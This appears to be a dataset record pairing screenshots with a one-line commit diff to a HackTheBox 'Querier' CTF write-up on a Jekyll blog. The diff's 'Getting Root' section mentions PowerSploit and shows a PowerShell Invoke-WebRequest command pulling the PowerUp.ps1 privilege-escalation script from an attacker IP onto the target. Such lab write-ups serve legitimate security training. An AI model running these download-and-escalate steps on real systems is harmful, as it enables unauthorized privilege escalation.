

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-06-24-Hackthebox-Querier-Writeup.md, in a window 1280 px wide and 900 px high, scrolled down 9662 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
modify one line

```diff
--- a/_posts/2019-06-24-Hackthebox-Querier-Writeup.md
+++ b/_posts/2019-06-24-Hackthebox-Querier-Writeup.md
@@ -333,9 +333,9 @@ c37b41bb669da345bb14de50faab3c16
 {% endhighlight %}
 
 ### 3. Getting Root
-We can take advantage of <a href="https://github.com/PowerShellMafia/PowerSploit">PowerSploit</a>.<br><br>
+We can take advantage of <a href="https://github.com/PowerShellMafia/PowerSploit">PowerSploit</a>.<br>
 
-At first, upload the script.
+At first, upload the script with launching a webserver on the localhost.
 {% highlight shell %}
 C:\Users\mssql-svc\Desktop>powershell Invoke-WebRequest -Uri 10.10.14.2/Privesc/PowerUp.ps1 -Outfile PowerUp.ps1
 powershell Invoke-WebRequest -Uri 10.10.14.2/Privesc/PowerUp.ps1 -Outfile PowerUp.ps1
```
